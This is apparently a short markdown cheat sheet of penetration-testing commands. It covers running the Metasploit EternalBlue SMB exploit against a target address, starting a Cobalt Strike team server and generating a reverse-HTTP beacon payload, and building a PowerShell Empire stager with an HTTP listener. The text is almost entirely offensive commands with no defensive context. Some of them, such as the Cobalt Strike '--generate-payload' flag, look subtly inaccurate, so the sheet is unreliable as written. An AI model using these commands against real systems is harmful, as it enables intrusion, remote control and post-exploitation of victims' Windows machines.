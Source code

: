 
### Network Exploitation

#### Metasploit
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use specific exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set target
set RHOSTS 192.168.1.100

# Execute exploit
exploit
```

#### Cobalt Strike
```bash
# Start team server
./teamserver 192.168.1.100 password

# Connect client
./cobaltstrike

# Generate payload
./cobaltstrike --generate-payload windows/beacon_http/reverse_http
```

### Post-Exploitation

#### PowerShell Empire
```bash
# Start Empire server
./empire

# Start Empire client
./empire --client

# Generate stager
usestager windows/launcher_bat

# Set listener
set Listener http

# Generate payload
execute
```
